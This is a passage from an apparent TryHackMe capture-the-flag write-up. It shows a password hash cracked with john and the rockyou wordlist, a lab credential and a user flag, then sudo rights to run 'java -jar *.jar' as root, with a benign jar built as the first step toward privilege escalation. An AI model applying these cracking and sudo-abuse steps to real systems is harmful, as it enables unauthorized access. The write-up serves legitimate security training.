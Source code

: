Then we crack the password with `john --wordlist=/usr/share/wordlist/rockyou.txt tocrack`

We find 

```
jdk-admin:794613852
```

And we got `/home/jdk-admin/user.txt` :

```
THM{1ae87fa6ec2cd9f840c68cbad78e9351}
```

## Priv esc

As `jdk-admin` user, we run `sudo -l` and get

```
User jdk-admin may run the following commands on vulnnet-dotjar:
    (root) /usr/bin/java -jar *.jar
```



So i guess we can craft a jar file

OR

we could use the wildcard expansion to inject some parameters ?



Let's craft an hello world executable `jar` 

We create a `Manifest.txt` file with this one line:

```
Main-Class: Pwn.Main
```



We create a folder named `Pwn` in which we ass `Main.java` :

```java
package Pwn;

public class Main
{
    public static void main(String[] args)
    {
        System.out.println("Hello world");
    }
}
```



We compile the file with `javac Pwn/Main.java`

Then we create the `jar` with `jar cmvf Manifest.txt pwn.jar Pwn/Main.class`

We now got an executable jar that can be runned via `java -jar pwn.jar` 
